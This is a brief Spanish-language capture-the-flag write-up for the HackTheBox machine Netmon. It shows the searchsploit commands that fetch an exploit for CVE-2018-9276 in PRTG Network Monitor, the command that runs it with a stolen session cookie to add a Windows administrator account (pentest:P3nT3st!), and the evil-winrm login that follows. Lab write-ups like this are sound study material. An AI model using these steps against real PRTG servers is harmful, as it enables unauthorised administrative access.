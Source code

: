 # [[CVE-2018-9276]]

Buscamos vulnerabilidades con [[searchsploit]] con el comando ``searchsploit prtg``
![[Netmon19.png]]
Descargamos la siguiente ``searchsploit  -m windows/webapps/46527.sh``
Le damos permiso de ejecucion con `chmod +x 46527.sh` y luego lo ejecutamos

La cookie de sesion la ponemos con el parametro *-c* y la sacamos de la pagina donde ya estamos logeado con las credenciales que sacamos previamente en `http://10.10.10.152/welcome.htm`
![[Netmon20.png]]
```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0FDMjQ3RTg0LTc0MzEtNDUyNy1BNzU2LTI0MTZEM0ExM0YwMX0%3D"

```
![[Netmon15.png]]
Este exploit lo que hace es crear un nuevo usuario en el windows, con permisos de administrador, y las credenciales van a ser pentest:P3nT3st!

## Conexion a la maquina con [[evil-winrm]]
Nos conectamos con esta herramienta por que habiamos visto en el escaneo de nmap que estaba activo el servicio por el puerto 47001
Y ya podemos catear la flag

```
evil-winrm -i 10.10.10.152 -u pentest -p 'P3nT3st!'
```

![[Netmon16.png]]
